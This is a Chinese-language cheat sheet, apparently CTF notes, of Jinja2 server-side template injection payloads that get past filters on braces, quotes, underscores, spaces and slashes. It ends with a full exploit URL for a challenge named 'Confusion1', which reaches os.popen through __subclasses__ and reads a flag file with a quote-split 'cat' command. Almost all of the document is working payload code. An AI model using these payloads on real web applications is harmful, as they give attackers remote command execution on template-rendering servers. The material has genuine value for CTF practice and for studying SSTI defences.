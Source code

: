# 常见绕过手法
	- `{{`
		- `{% if ... %}1{% endif %}`
	- 关键字
		- `{{""["\x5f\x5fclass\x5f\x5f"]}}`
	- 引号
		- `(app.__doc__|list()).pop(102)|string()`
		- `dict(buil=aa,tins=dd)|join()`
		- `["a"]`可以用`[a]`代替？
	- `+`
		- `~`
		- `__add__`
		- `"a""b"`
	- 下划线
		- `config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)`
		- `lipsum|escape|batch(22)|list|first|last`
	- 空格
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)`
	- 斜杠
		- `config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)`
	- `%`
		- `(()|safe).__doc__`里面有
	- 拼接字符串
		- `|replace('', 'b', count=1)`
	- 常见获取mro的方式被禁止
		- `namespace.mro()`
- # 利用 request 对象绕过
	- 题目: Confusion1
	- ```
	  http://111.200.241.244:59576/a.php/{{''[request.args.clas][request.args.mo][2][request.args.sub]()[230][request.args.in][request.args.g1+request.args.g2][request.args.o+request.args.s][request.args.po+request.args.pen](request.args.cmon)[request.args.re+request.args.ad]()}}
	  ?clas=__class__
	  &mo=__mro__
	  &sub=__subclasses__
	  &in=__init__
	  &g1=__global
	  &g2=s__
	  &po=po
	  &pen=pen
	  &o=o
	  &s=s
	  &re=re
	  &ad=ad
	  &cmon=c'at' /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt
	  ```